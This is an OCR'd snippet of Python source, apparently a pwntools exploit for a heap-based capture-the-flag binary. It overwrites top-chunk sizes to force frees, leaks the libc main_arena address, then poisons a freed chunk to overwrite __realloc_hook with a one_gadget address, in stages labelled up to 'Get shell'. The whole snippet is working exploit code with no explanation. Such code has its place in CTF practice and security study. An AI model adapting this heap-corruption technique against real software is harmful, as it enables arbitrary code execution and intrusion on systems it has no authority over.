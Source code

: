 ```python
payload += b'\x00'*0x8    # Prevsize
payload += p64(0xd51)
gets(0+n, payload)

# Trigger to free top chunl
malloc(1+n, 0x1000)

# Malloc to get libc main arena address
malloc(2+n, 0x100)
puts(2+n)
libc_main_arena = u64(p.recvline()[:-1] + b'\x00\x00')
log.success('Libc main_arena: ' + hex(libc_main_arena))
libc.address = libc_main_arena - libc.sym['main_arena']
log.success('Libc main_arena: ' + hex(libc.address))

####################################
### Stage 2: Free 2 small chunks ###
####################################
log.info('Stage 2: Free 2 small chunks...')
# First freed chunk
# Change top chunk size to 0x20300
malloc(1+n, 0xcf0-0x10)

# Overwrite top chunk size to 0x300
payload = b'\x00'* (0xcf0-0x10)
payload += b'\x00'*8
payload += p64(0x301)
gets(1+n, payload)

# Trigger to free top chunk
malloc(2+n, 0x1000)


# Second freed chunk
# Change top chunk size to 0x20300
malloc(2+n, 0xcf0-0x10)

# Overwrite top chunk size to 0x300
payload = b'\x00'* (0xcf0-0x10)
payload += b'\x00'*8
payload += p64(0x301)
gets(2+n, payload)

# Trigger to free top chunk
malloc(3+n, 0x1000)

##########################
### Stage 3: Get shell ###
##########################
log.info('Stage 3: Get shell...')
payload = b'\x00'* (0xcf0-0x10)
payload += b'\x00'*8    # Prevsize
payload += p64(0x2e1)
payload += p64(libc.sym['__realloc_hook'])
gets(2+n, payload)

malloc(3+n, 0x2e0-0x10)
malloc(3+n, 0x2e0-0x10)

payload = p64(libc.address + 0xe6aee)
payload += p64(libc.sym['realloc'] + 24)
gets(3+n, payload)

```